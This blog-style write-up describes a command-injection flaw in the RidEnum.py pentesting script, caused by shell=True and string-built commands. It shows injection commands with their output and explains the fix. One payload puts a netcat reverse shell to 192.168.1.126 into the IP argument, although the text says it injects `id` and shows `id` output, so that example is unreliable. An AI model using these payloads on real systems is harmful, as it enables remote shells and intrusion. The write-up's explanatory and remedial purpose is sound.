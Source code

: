 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Pwning A Pentesting Tool
_____________________________________________________________________

For some reason looking at other people's source code makes me get all warm and fuzzy inside. Kinda of like the description a Millenial hipster gives you. You know, when they tell you how they sat down and read a 'good book' with a cup of gluten-free, 100% non-GMO, Rainforest Alliance Certified Coffee. 

Reading source code from other individuals or groups can give you an insight into a lot of things like:
  * New syntax and syntactical methods that you never knew existed in a language
  * How to get code to execute by bypassing AV, countermeasures, etc.
  * What not to do when developing an application of any sort
  * What the drug or alcohol choice of the individual/group was during development ;)
  
## Some Of Python's Dangerous Functions & Methods
Python is a fantastic language. It's one of my favorites along side PowerShell, and C#. However, like all computer languages it doesn't come without it's flaws or dangerous functions and methods. You can read more about some of those dangerous functions and methods in the below links:
 1. https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html
 2. https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html
 3. https://security.openstack.org/guidelines/dg_use-subprocess-securely.html
 4. https://security.openstack.org/guidelines/dg_avoid-shell-true.html
 5. https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd
 6. https://docs.python.org/3.7/library/subprocess.html#popen-objects
 
The links above focus more on which a user is prompted to provide input via the `input` function in Python. Leveraging command injection via command line arguments that will be parsed by a script will be a little trickier, but it's still very simple to do.
 
## The Vulnerability
The vulnerability itself is not super-duper serious as a vast majority of Linux machines will probably not have this tool installed. While working on a CTF problem involving SIDs and looking for another tool to compare with Impacket's lookupsid.py script, I came across a tool written by Dave Kennedy (ReL1K) called RidEnum.py. I was interested in how both tools were obtaining the Domain SID, but that's not really important. However, I noticed in the source code on the [github page](https://github.com/trustedsec/ridenum/blob/master/ridenum.py) that the tool was using a Subprocess.Popen object or two to execute a shell command. This appears on lines 62 and 78. 

There are two arguments that helped me to perform command injection. If you look closely, you'll note that the variable `command` which will store the string representation of the command to be executed takes the `auth` (or optional username argument) and the IP argument and then places them into the string using the "old style" string formatting operator (`%`).

Two things can be taken in to consideration at this point (links 3, 4 and 5 above do a great job explaining the problems):

1. The `shell` parameter in both calls are set to `true`. That's a no no, especially if you allow a user to supply input to your script or program. In simple terms, this tells Python to execute the string containing the command(s) as if you were doing it in a bash shell.

2. The `command` variable is a whole *string* variable that contains the entirety of a bash command, so everything is treated literally so to speak. Rather the string referenced by the `command` variable should have been broken down into a list of strings (`command = ["rpcclient", "-U", "\"{}\"".format(auth), "{}".format(ip) "-c", "\"lsaquery\""]`)


Here's the help documentation for ridenum.
```
Example: ./ridenum.py 192.168.1.50 500 50000 /root/dict.txt /root/user.txt

Usage: ./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```
As I said before, doing this via command line arguments is a little tricker. One would expect that all they would have to do is excute the following command `./ridenum.py 10.10.10.10;id; 100 1000 0v3rride`. This doesn't work, because all you're doing is terminating the `ridenum.py` script prematurely without giving it all of the required arguments, calling the bash command `id` and then specifying abunch of crap after the fact that has no meaning in bash (`100 1000 0v3rride`). Take a look at point two again above and notice the keyword 'string'.

Let's execute ridenum and inject the bash command `id`.
```
./ridenum.py "1.1.1.1; *nc 192.168.1.126 1234 -c bash;*" 0 3 "0v3rride" "mysecretpassword"
```

Result (I'm executing this on my Kali machine locally, that's why I'm root):
```
uid=0(root) gid=0(root) groups=0(root)
bash: 100: command not found
```
Note the error below the output of the `id` command and how I placed the `id` command with the `IP` argument. Why do I need two `;`? If this were executed as `;id 100 1000 0v3rride` then everything after `id<space>` is treated as an argument to the `id` command. So in this case the error would be `id: extra operand ‘1000’`. One can run the bash command `id` and supply it a username as an argument (`id <username>`). 

Let's get the id information for the account `ntp`.
```
./ridenum.py 10.10.10.10;id ntp;100 1000 0v3rride

uid=111(ntp) gid=114(ntp) groups=114(ntp)
bash: 100: command not found
```

The injection point for the auth command is even easier. Since ridenum wants you to give arguments in a specified order and everything after the `<end_rid>` argument is optional, you don't need another `;` to terminate. However, you will have to wait for ridenum to run all the way through until it executes the command that was injected. In this case I feed it an invalid IP address so it would execute faster, because it fails.

```
./ridenum.py 10.10.10.10 100 1000 0v3rride;id
[*] Attempting lsaquery first...This will enumerate the base domain SID
[!] Unable to enumerate through lsaquery, trying default account names..
[!] Failed using account name: administrator...Attempting another.
[!] Failed using account name: guest...Attempting another.
[!] Failed using account name: krbtgt...Attempting another.
[!] Failed using account name: root...Attempting another.
[!] Failed to enumerate SIDs, pushing on to another method.
[*] Enumerating user accounts.. This could take a little while.
[*] Attempting enumdomusers to enumerate users...
[!] Sorry. RIDENUM failed to successfully enumerate users. Bummers.
uid=0(root) gid=0(root) groups=0(root)
```

Command/Shell injection via a Python script is really that simple. The fix to this is also pretty simple. Get rid of the `shell=true` argument and break the `command` variable down into a list of strings.

